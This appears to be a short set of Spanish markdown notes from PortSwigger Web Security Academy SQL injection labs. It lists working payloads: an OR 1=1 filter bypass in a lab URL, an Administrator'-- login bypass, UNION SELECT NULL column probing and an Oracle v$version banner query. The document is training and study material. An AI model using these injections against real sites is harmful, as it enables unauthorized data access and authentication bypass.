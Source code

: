 ```yaml
---

typora-copy-images-to: ../../mis_assets/img/rails/

typora-root-url:  ../../

layout: post

---
```


> Laboratorio 1

```html
https://ac241f1c1e1c928a80cc0b910061008d.web-security-academy.net/filter?category=gifts'+OR+1=1-
```

![1](/DEV-OPS/mis_assets/img/SQL inyection/1.png)



|Laboratorio 2

Añadimos en el campo usuario = Administrator’--

Añadimos en el campo contraseña = ‘’



![2](/DEV-OPS/mis_assets/img/SQL inyection/2.png)



| Laboratorio 3



Añadimos a partir de la categoría el siguiente código:

UNION SELECT NULL,NULL, NULL-



![3](/DEV-OPS/mis_assets/img/SQL inyection/3.png)



| Laboratorio 4



+UNION+SELECT+BANNER,+NULL+FROM+v$version--




![5](/DEV-OPS/mis_assets/img/SQL inyection/5.png)
